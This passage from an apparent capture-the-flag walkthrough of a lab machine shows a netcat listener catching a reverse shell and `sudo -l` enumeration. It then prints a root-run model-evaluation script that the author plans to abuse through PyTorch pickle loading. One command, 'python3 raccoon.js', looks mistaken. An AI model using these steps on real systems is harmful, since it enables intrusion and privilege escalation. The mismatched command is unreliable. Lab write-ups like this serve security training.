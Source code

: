 Now we run the script, upload the artifact, and presumably wait for our shell.

```bash
python3 raccoon.js


nc -nvlp 7777

Listening on 0.0.0.0 7777
Connection received on 10.10.11.19 45458
sh: 0: can't access tty; job control turned off
$ id
uid=1000(jippity) gid=1000(jippity) groups=1000(jippity)
```

It is of note here the issue comes when a user interacts with the artifact that we uploaded. I believe the review tag is mandatory in that case as otherwise it might not be checked by the backend fake user.

# Root

## Option 1: Pytorch + Pickle

```bash
jippity@blurry:/tmp/.raccoon$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

```bash
/usr/bin/evaluate_model

#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.

if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi

MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

/usr/bin/mkdir -p "$TEMP_DIR"

file_type=$(/usr/bin/file --brief "$MODEL_FILE")

# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi

```